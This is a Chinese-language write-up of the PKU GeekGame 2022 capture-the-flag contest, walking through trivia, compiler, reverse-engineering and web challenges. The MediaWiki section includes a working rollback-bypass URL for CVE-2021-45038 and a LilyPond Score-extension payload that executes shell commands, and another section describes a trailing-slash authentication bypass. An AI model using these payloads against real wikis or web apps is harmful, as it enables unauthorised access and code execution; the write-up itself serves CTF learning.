



# PKU GeekGame 2022 WriteUp

> by hangyi

今年没怎么打 HackerGame，来打 GeekGame 了。

## †签到†

题目给了一个加密的 PDF 文件，文字无法复制。

解法有很多：

1.用在线的 [PDF 解密](https://smallpdf.com/cn/unlock-pdf)移除密码就可以正常复制出文字。

2.WPS 打开划词翻译，Ctrl+A，然后多点几次鼠标把划词翻译调出来，打开翻译窗口能更好地分辨换行。


3.使用 Ghostscript 进行处理~~，还是从去年选手的 WriteUp 里学来的~~。

```shell
$ gs -sDEVICE=txtwrite -o - prob19.pdf
GPL Ghostscript 9.56.1 (2022-04-04)
Copyright (C) 2022 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
Processing pages 1 through 1.
Page 1
        WELCOME  ABOARD,
       ALL  PLAYERS!  GO  TO
       GEEKGAME.PKU.EDU.CN
       AND  SUBMIT  THE  FLAG:
   fa{ecm_oPUGeGmV!
   lgWloet_K_ekae2}
 别急 别急

The following warnings were encountered at least once while processing this file:
        Invalid /Length supplied in Encryption dictionary.

   **** This file had errors that were repaired or ignored.
   **** The file was produced by:
   **** >>>> Microsoft� PowerPoint� LTSC <<<<
   **** Please notify the author of the software that produced this
   **** file that it does not conform to Adobe's published PDF
   **** specification.
```

得到

```
fa{ecm_oPUGeGmV!
lgWloet_K_ekae2}
```

用了栅栏密码，丢[栅栏加密/解密](https://ctf.bugku.com/tool/railfence)栏数选择 2 解密即可。

当然也可以直接从上往下数，从左往右数看出来~~，不过比较累~~。

`flag{Welcome_to_PKU_GeekGameV2!}`

~~明年就 V3 了，什么时候 V50~~

## 小北问答 · 极速版

> 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？

搜索 gStore 可以找到[图数据库引擎 gStore 系统](http://www.gstore.cn)。

在关于我们里提到了`2011年 gStore 相关论文首度发表 Lei Zou gStore: Answering SPARQL Queries via Subgraph Matching. PVLDB 4(8): 482-493 (2011)` 。

再把 `PVLDB 4(8): 482-493 (2011)` 拿去搜索找到对应期刊 [PVLDB: Vol 4, No 8 (acm.org)](https://dl.acm.org/toc/pvldb/2011/4/8)

就能找到 [gStore: answering SPARQL queries via subgraph matching (acm.org)](https://dl.acm.org/doi/10.14778/2002974.2002976)，根据答案格式可知是`10.14778/2002974.2002976`。

~~好像直接搜索 gStore doi 就可以找到那个 doi 网站了:(~~ 

> 视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？

可以直接用在线[AV、BV号互转](https://bv-av.cn/get-bv-av)或者找相关代码实现，答案 `418645518`。

~~我以为 BV 号会变还找了个脚本:(~~

> 支持 WebP 图片格式的最早 Firefox 版本是多少？

这道题用必应和百度搜索`支持 WebP 图片格式的最早 Firefox 版本是多少？`都能直接告诉你是 65.0，根据格式要求，答案为 `65`。反而谷歌搜索结果不太友好，看来还是要多尝试几个搜索引擎。

> 访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

其实这是域名代码(Punycode)，知道可以直接用在线工具转换。

不知道也可以按 F12，输入网址，回车，在网络请求中找到Host：`ctf.xn--4gqwbu44czhc7w9a66k.com`

> 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

有很多种方式，可以直接[下载](https://pkunewyouth.pku.edu.cn/public/apks/pkurunner-latest.apk)用 mt 管理器查看包名，也可以搜索到 [pku-runner.github.io/doc.md](https://github.com/pku-runner/pku-runner.github.io/blob/android/doc/doc.md) 找到酷安上的下载地址，`apks/` 后面那串就是包名，故可得到 [`cn.edu.pku.pkurunner`](http://www.coolapk.com/apk/cn.edu.pku.pkurunner)~~虽然酷安上的下架了~~。

> 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 6 级关卡需要多少金钱？

这题关卡级别会变，到去年的存档里找到这题，一通翻找到 [libtreasure.py](https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py) 里有句`GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100` 猜测就是需要的金钱数，带入公式即可。

> 我刚刚在脑海中想了一个介于 9758930138 到 9758930568 之间的质数。猜猜它是多少？

这题数字范围也会变，我是用 gmpy2.next_prime() 找下一个质数，不过要多试几次才能猜对。

> 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

这题在第二阶段给了提示才知道答案，提示在 `695 Hawthorn Ave, Boulder, CO` 附近，直接搜索找到 [695 Dellwood Ave, Boulder, CO 80304 | Zillow](https://www.zillow.com/homedetails/695-Dellwood-Ave-Boulder-CO-80304/13177176_zpid/) 邮编：`80304`。

然后要满分的话写个脚本就行，完整代码见 [prob01.py](src/prob01.py) 。

```
flag{i-am-the-kIng-of-aNxiEtY}
flag{now-you-haVe-learnt-HoW-to-use-pwNtools}
```

## 编原译理习题课

~~原来不是编译原理~~

> 让 g++ **编译出的程序超过 8MB** 可以获得 Flag 1

[查找](https://codeforces.com/blog/entry/17256)可知对于全局变量如果初始赋值的话会分配很多的内存

```c++
int arr[2093198]={1}; # 2093198 编译出来的大小是 8388616 bytes，刚好超过 8388608。
int main(){}
//EOF
// flag{not-mucH-Larger-thaN-an-elEctron-app}
```

> 让 g++ **输出的报错信息超过 2MB** 可以获得 Flag 2

从 [Code Golf](https://codegolf.stackexchange.com/questions/1956/generate-the-longest-error-message-in-c) 上找到了相关挑战，主要是用了递归调用自身，但自己的代码会报错，这样循环错误输出就很大。

```c++
#include __FILE__
#include __FILE__
;
//EOF
// flag{sHort volatile progrAm; lOng lonG message;}
```

> 让 g++ **因为段错误而崩溃** 可以获得 Flag 3

通过判题脚本可知要让 g++ 输出 `Please include the complete backtrace with any bug report.`

搜下什么情况会输出这段话，这题用谷歌搜效果较好，能找到[这个](https://bugzilla.redhat.com/show_bug.cgi?id=1842304)~~（必应和百度好像没在前几页看到）~~，里面有给出代码示例，直接用就行。

```c++
void f(){
    alignof((
        {
            label:
                0;
        }));
    goto label;
}
//EOF
// flag{SOrry-to-inform-You-that-gnU-is-not-unix}
```

## Flag Checker

这题是 Java 反编译，我用的是 jd-gui，当然 jadx 也行。但 jadx 会把函数放一起。有的看得不是很明白。

有一串很长的乱码先不管它，找到主要判断地方 actionPerformed 函数：

```java
if (paramActionEvent.getSource() == this.button1)
{
    localObject1 = this.textField1.getText().getBytes("UTF-8");
    localObject2 = rot13(Base64.getEncoder().encodeToString((byte[])localObject1));
    if ("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4".equals(localObject2)) {
        JOptionPane.showMessageDialog(null, "Correct");
    } else {
        JOptionPane.showMessageDialog(null, "Wrong");
    }
}
```

当点击按钮时，将输入的值先 Base64 编码再 rot13 后与 `MzkuM8gmZJ6jZJHgnaMuqy4lMKM4` 比较是否符合。

直接倒着推一遍这个过程，其中 rot13 的实现直接用源码里的改下就行。

```py
import base64
def rot13(s):
    sb=""
    for i in range(len(s)):
        charAt = s[i]
        if (charAt >= 'a' and charAt <= 'm'):
            charAt = chr(ord(charAt) + ord('\r'))
        elif (charAt >= 'A' and charAt <= 'M'):
            charAt = chr(ord(charAt) + ord('\r'))
        elif (charAt >= 'n' and charAt <= 'z') :
            charAt=chr(ord(charAt) - ord('\r'))
        elif (charAt >= 'N' and charAt <= 'Z') :
            charAt=chr(ord(charAt) - ord('\r'))
        elif (charAt >= '5' and charAt <= '9') :
            charAt = chr(ord(charAt) - 5)
        elif (charAt >= '0' and charAt <= '4') :
            charAt = chr(ord(charAt) + 5)
        sb+=charAt
    return sb

print(base64.b64decode(rot13("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4")))
# flag{s1mp1e-jvav_rev}
```

回到之前的乱码，这里将 str 里的每个字符都与 0xEF异或然后执行生成的代码：

```java
try
{
    String str ="\u0089\u009a\u0081\u008c\u009b\u0086......\u0092"; 
    // 这里 jd-gui 会显示不出来，改用 jadx 就行了
    localObject = new StringBuilder();
    for (int i = 0; i < str.length(); i++) {
((StringBuilder)localObject).append((char)(str.charAt(i) ^ 0xEF));
    }
    localScriptEngine.eval(((StringBuilder)localObject).toString());
}
```

逆推下：

```py
ss = '\u0089\u009a\u0081\u008c\u009b\u0086......\u0092'
u=""
for i in ss:
    u+=chr(ord(i)^ 0xEF)
print(u)
# function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

可能看不出干了什么，将变量替换下：

```js
function checkflag2(a) {
    var b = ['charCodeAt', 'map', '', 'split', 'stringify', 'Correct', 'Wrong', 'j-']
    return (JSON['stringify'](a['split']('')['map'](function(c) {
        return c['charCodeAt'](0)
    })) == JSON['stringify']([0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232]['map'](function(c) {
        return (checkflag2 + '')['charCodeAt'](c)
    })) ? 'Correct': 'Wrong')
}
```

这样就比较明了了，就是将 a 转成 map 和后面的执行结果判等。直接到浏览器里运行下：

```javascript
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
JSON['stringify']([0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232]['map'](function(c) {return (checkflag2 + '')['charCodeAt'](c)}))
// [102,108,97,103,123,106,97,118,97,115,99,114,105,112,116,45,111,98,102,117,115,99,97,116,111,114,125]
```

转成 ASCII 就行，完整代码见 [prob15.py](src/prob15.py) 

`flag{javascript-obfuscator}`

## 智慧检测器

只拿到了 flag1:(

一通乱按，发现只要一次性输入多个，比如

```
NNNNNNN
SSSSSSS
NNNNNNN
SSSSSSS
SSSSSSS
```

就可能把边界顶掉，然后再往外走一个就能溢出报错了。

`flag{gamE.exe-stops-respoNdinG...send-error-repOrt?}`

## 企鹅文档

这题很有意思，通过真实的在线服务来设题。

打开发现有设置文档保护，尝试导出副本也不行。在响应中搜索`机密flag`，从 https://docs.qq.com/dop-api/opendoc 这个接口中发现包含提示词，从预览中把它们全部提取出来就行。

注意 url 分布在两个响应中，要全部拿到~~（不然就卡关了）~~。

访问 `https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next`

下载到[下一步附件](https://geekgame.pku.edu.cn/service/attachment/prob21/kAiQcWHobsBzRJEs_next.7z)，解压得到一个 HAR 包，导入到 Fiddler 中打开。

发现主要内容在 https://docs.qq.com/dop-api/get/sheet 的响应里，由于这是流量包，可以直接建个文档，通过修改返回数据来显示 flag。

新建个在线腾讯文档表格，**在底部增加个几百行**，默认给的行数有点小，加几行以免待会卡住。

然后抓包，修改 https://docs.qq.com/dop-api/get/sheet 的返回为流量包里的，其他全部放行就行。

你就能得到一个奇怪的界面，发现字体为等线的地方就是 flag 涂黑的地方，双击就能把它涂黑，还能把周围的黑色方框显示出来，只要花点时间就能得到 flag 了（注意大小写），图片见 [src/3.png](src/3.png)。

`flag{HopefullySponsoredByTencent}`

## 私有笔记

访问 [https://prob07.geekgame.pku.edu.cn/index.php/特殊:版本](https://prob07.geekgame.pku.edu.cn/index.php/特殊:版本)先查看下版本，是 1.36.4，安装了 Score 扩展，这些后面有用。

搜索 `MediaWiki 漏洞` 可以找到 [2021-12安全发布/常见问题解答](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ/zh)，里面有介绍了几种绕过编辑权限读取的办法，我利用的是 CVE-2021-45038，POC：`https://prob07.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}`。

会提示回退失败，下面正文就把 flag 显示出来了`flag{insecure_01d_mediavviki}`。

~~没抢到一血，悲:(~~

第二阶段提示 Mediawiki Score RCE，搜索到 CVE-2020-29007，GIthub 上搜下看看有没有 POC。

搜到[这个](https://github.com/seqred-s-a/cve-2020-29007)但不能用，换成了 [mmiszczyk/lilypond-scheme-hacking](https://github.com/mmiszczyk/lilypond-scheme-hacking)。

他在 snippets 中提供了很多代码示例可以用，虽然要根据[Extension:Score - MediaWiki](https://www.mediawiki.org/wiki/Extension:Score)修改下格式。

把代码放在`‎<score>{...‎}</score>` 中执行比如：

```
<score>{
#(define s "")
#(system "ls / > /tmp/qwertyasdf")
#(let*  ((f (open-input-file "/tmp/qwertyasdf"))
        (c #\space))
  (while (not (eof-object? c))
  (set! s (string-append s (string c)))
  (set! c (read-char f))))
\new Staff <<{g^#s
}>>
}</score>
```

根据页面提示，用户名是 Flag1 和密码是上面的 flag，登录后随便找个页面编辑把上面代码填进去显示预览就行。



发现 flag2，然后把 `ls /` 换成 `cat /flag2` 再预览下：



`flag{li1yp0nd_can_1ead_to_rce}`

## 企业级理解

看源码搜下 antMatchers 配置认证绕过，可知在地址栏后加斜杠 `/` 就能绕过验证。

进到 [/admin/query/](https://prob08.geekgame.pku.edu.cn/admin/query/) 选择第三个 `PKU_GeekGame` 。发送时拦截，在地址后面加斜杠，放行。

> {"type":"PKU_GeekGame","value":"flag1{$UUID} 恭喜你发现flag1，还有其他flag等待你发现哦"}

这题好像是动态 flag 就不放了`flag{$UUID}`。

第二阶段才做出来是因为没想到要选择第三个发，悲:(

## 381654729

还不知道 381654729 是啥意思，搜了下发现它从首位数开始，向右连续增加一位数，其数字依次被其位数整除。

这题也差不多要找到这样一个十六进制数，它从左往右起每增加一位数都能被其位数整除。

可以写个脚本跑下，由于这个数不能太多，所以把长度设置在 39，能找了三个解。

拿到解后将其与都拿去 `2511413510786744838119565865056609615595993472546783131026` 异或，再转为 bytes，发现只有 `aa44ce207c78fc30003c3cc0d8382e2078d07ef` 是能得到正确 flag 的，具体代码见 [prob16.py](src/prob16.py)。

`flag{fOUnd_mAGic_number}`。


> 总的来说本次比赛感觉十分不错的，不像去年根本不会做。
>
> 期待明年再来。
